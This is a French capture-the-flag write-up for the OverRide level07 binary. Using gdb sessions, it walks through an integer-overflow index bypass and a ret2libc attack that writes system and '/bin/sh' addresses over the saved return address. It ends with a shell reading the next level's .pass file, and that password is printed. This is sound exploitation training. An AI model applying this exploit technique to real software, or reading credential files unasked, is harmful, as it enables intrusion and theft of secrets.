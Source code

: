 ### level07

Dans cet exercice, le programme a un système de stockage d'int dans un buffer.
Il prend des commandes en instructions et des nombres accompagnés d'index pour les stocker.
Le programme efface les arguments du main ainsi que les variables d'environnement.
Nous allons donc nous tourner vers un ret2libc.

Pour cela, nous devons commencer par trouver l'eip et le modifier.

On cherche l'adresse du buffer data pour calculer par la suite l'index du tableau qui correspond à eip.
On sait qu'il est envoyé en paramètre à store_number, c'est là que l'on va le chercher :

```bash
level07@OverRide:~$ gdb -q level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b store_number 
Breakpoint 1 at 0x8048636
(gdb) r
Starting program: /home/users/level07/level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store

Breakpoint 1, 0x08048636 in store_number ()
(gdb) x $ebp+0x8
0xffffd520:	0xffffd544
```

L'adresse du premier élément du tableau est : 0xffffd544

Maintenant, on cherche l'adresse d'eip :

```bash
level07@OverRide:~$ gdb -q level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) i f
Stack level 0, frame at 0xffffd710:
 eip = 0x8048729 in main; saved eip 0xf7e45513
 Arglist at 0xffffd708, args: 
 Locals at 0xffffd708, Previous frame's sp is 0xffffd710
 Saved registers:
  ebp at 0xffffd708, eip at 0xffffd70c
```

On trouve eip = 0xffffd70c

L'index d'eip dans le tableau data est donc : 0xffffd70c - 0xffffd544 = 456 / 4 = 114

Malheureusement, 114 est un multiple de 3 et on ne peut pas utiliser directement ces derniers en index :

```C
    if (!(index % 3) || number >> 0x18 != 0xb7) {
        puts(" *** ERROR! ***");
        puts("   This index is reserved for wil!");
        puts(" *** ERROR! ***");
        return 1;
    }
```

Or lors du stockage du nombre, le programme effectue : ``data[index << 2] = number;``
Cela signifie que comme dans l'exercice bonus1 de rainfall, on peut chercher un nombre qui va overflow et donner 114.
Pour cela, on reprend le même script et en lui donnant 456 on obtient : `1073741938`

Démonstration :

```bash
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 24
 Index: 114
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 Failed to do store command
Input command: store
 Number: 42
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 42
 Completed read command successfully
```

Cela nous donne l'index à utiliser pour rediriger le flux d'exécution du programme.
Maintenant, comme dans l'exercice 4, on va chercher l'adresse de system et celle de la string "/bin/sh" :

```bash
level07@OverRide:~$ gdb -q level07 
Reading symbols from /home/users/level07/level07...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048729
(gdb) r
Starting program: /home/users/level07/level07 

Breakpoint 1, 0x08048729 in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) i proc map
process 2188
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
	 0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
	 0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
	0xf7e2b000 0xf7e2c000     0x1000        0x0 
	0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
	0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
	0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
	0xf7fd0000 0xf7fd4000     0x4000        0x0 
	0xf7fda000 0xf7fdb000     0x1000        0x0 
	0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
	0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
	0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
	0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
	0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

system : 0xf7e6aed0 = 4159090384
/bin/sh : 0xf7f897ec = 4160264172

On va utiliser leurs valeurs en décimal pour les entrer dans data.
On store d'abord system en 114 avec l'index 1073741938 puis 2 entrées plus loin on stocke /bin/sh et enfin on quit :

```bash
store
4159090384
1073741938
store
4160264172
116
quit
```

On les copie dans un fichier dans tmp qu'on exécute comme suit :

```bash
level07@OverRide:~$ cat /tmp/commands - | ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command:  Number:  Index:  Completed store command successfully
Input command:  Number:  Index:  Completed store command successfully
cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
